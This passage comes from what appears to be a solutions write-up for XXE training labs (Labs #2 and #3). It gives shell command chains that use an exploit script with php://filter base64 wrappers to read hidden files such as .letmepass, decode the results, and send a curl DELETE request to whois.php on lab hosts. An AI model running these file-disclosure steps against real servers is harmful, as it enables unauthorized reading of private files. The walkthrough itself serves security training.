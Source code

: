 Remove JSON escaping characters:
```bash
[Steps 1|2] | sed 's/\\\//\//g'
```

Retrieve the content of whois.php using the DELETE verb:
```bash
curl -s "http://2.xxe.labs/whois.php" -X DELETE
```

- Base64 decode and store the result in a file.

> The base64 command has different implementations; therefore, you may need one of these two switches to decode:

```bash
[Steps 1|2|3] | base64 -d

OR

[Steps 1|2|3] | base64 -D
```

Testing command:
```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www/xxe/2/.letmepass \
| awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' \
| sed 's/\\\//\//g'

curl -s 'http://2.xxe.labs/whois.php' -X DELETE | base64 -d
```

### Solutions - Lab #3

*The solution is encoded and obfuscated in a php file*

Dont break my XML:

Exploitation steps

Download base64 encoded the content of .letmepass:
```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www/3/.letmepass.php
```

Extract the content from the result:
```bash
[Step 1] | gawk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }'
```

Remove JSON escaping characters:
```bash
[Steps 1|2] | sed 's/\\\//\//g'
```

Base64 decode and store result within a file:
```bash
[Steps 1|2|3] | base64 -d > whaat.php

OR

[Steps 1|2|3] | base64 -D > whaat.php
```

